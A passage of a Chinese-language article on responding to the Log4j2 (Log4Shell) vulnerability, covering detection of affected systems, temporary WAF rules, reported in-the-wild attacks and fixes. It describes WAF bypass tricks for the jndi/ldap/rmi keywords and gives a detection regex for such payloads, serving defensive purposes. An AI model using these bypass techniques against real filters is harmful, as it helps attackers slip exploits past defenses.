

#### 对于白盒来说如何发现存在漏洞的系统

白盒相对容易一些，毕竟代码在手，还有什么不知道的，只需要搜索 git 平台的代码，如果符合漏洞版本范围内的都是存在问题的，全部升级替换即可。

下面是火线安全统计的关于存在漏洞组件的库，可以进行搜索，网站：

> https://log4j2.huoxian.cn/layout



就是企业越大，系统越多，更新的过程越复杂，需要测试调试的时间越多，尽量避免因为修复漏洞而导致系统故障。  

#### 对于该漏洞的临时防护怎么做

如果企业已经部署了 WAF 等安全产品，在漏洞爆发之初就应该及时更新规则，临时处置，从而给后续的根治争取时间，从 payload 上看，有几个关键特征:`${`,`jndi`,`ldap`,`rmi`等，但是如果只是拦截 `jndi` 等字符串，很可能没有很好的效果，因为可以进行字符串拼接从而绕过检测，而如果拦截 `${`，又可能造成正常功能无法使用，毕竟可能存在正常请求中包含这个关键词的情况。

所以在上临时规则时，要先灰度测试一段时间，才可以全量上规则，否则因为一时的防御，而导致新的问题。下面是一个关于 waf 绕过思路，也可以作为防御的参考：

1、jndi、ldap、rmi 绕过

*   用 lowerCase upperCase 把关键词分割开
    
*   如果使用了正则的话可以使用 upper 把 jndı 转成 jndi
    

案例：



‍2、`${` 关键词拦截（范围大且容易产生误报，且不能真正解决，漏洞的触发点是在打印日志的时候把可控内容携带进去了）  

3、为了减少误报，waf 匹配规则参考：

```
\${(\${(.*?:|.*?:.*?:-)('|"|`)*( ?1)}*|[jndi:(ldap|rm)]('|"|`)*}*){9,10}
```

效果如图：  



临时方案治标不治本，只能争取时间，从根源上测地消灭漏洞。

#### 在野利用的案例

随着漏洞的公开，在野利用该漏洞获取权限并进行挖矿勒索的案例已然出现，比如奇安信检测到的情况，详情[《警惕！Log4j2 漏洞已被多个僵尸网络家族利用》](https://mp.weixin.qq.com/s?__biz=Mzg4OTU4MjQ4Mg==&mid=2247485419&idx=1&sn=a8fccee9a7b0a364f9b7831bd41f4961&scene=21#wechat_redirect)，漏洞触发条件是在 url 中带入 payload：



漏洞利用成功后会加入 SSH 公钥，这个特征还比较明显，容易拦截。比如绿盟科技检测到的情况，详情[《Log4j2 修补时间差！挖矿软件和僵尸网络乘虚而入》](https://mp.weixin.qq.com/s?__biz=Mzg2MDUxMjQxMg==&mid=2247486472&idx=1&sn=228de4ea7e0890292f49c73f09973d30&scene=21#wechat_redirect)，payload 及利用如图：



我相信，在野利用绝非检测到的这些方式，还有更多想不到的利用方式，这个也会长期存在。

#### 如何修复这个漏洞

漏洞出现之后，官方也一直在推出补丁，然而一直也存在补丁绕过的情况 ，打官方补丁当然是一个比较靠谱的方式，但是一开始并不能完美解决。

在进行漏洞利用时，针对高版本的 java jdk 是无法直接利用的，但是也不一定完全不可以，对于一些企业，定期更新 java 的可能影响比较小，所以 java 版本更新也是一种缓解的方式。

其他层面的修复：

1、采用 rasp 对 lookup 的调用进行阻断

2、限制不必要的业务访问外网

3、设置 JVM 启动参数 - `Dlog4j2.formatMsgNoLookups=true`

4、WAF 添加漏洞攻击代码临时拦截规则创建 “log4j2.component.properties” 文件，文件中增加配置“log4j2.formatMsgNoLookups=true”

#### 写后感

没想到我会因为一句 logger.error 写这么多，其实如果是其它级别的日志只要能打印应该也是可以利用，至于什么级别的打印其实是可以自己配置的，我的第一个 1day 就这样总结完了，感谢良哥，分享了一下 log4j 漏洞成因，说实话那时候看的是有点蒙，点进去像套娃一样。


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
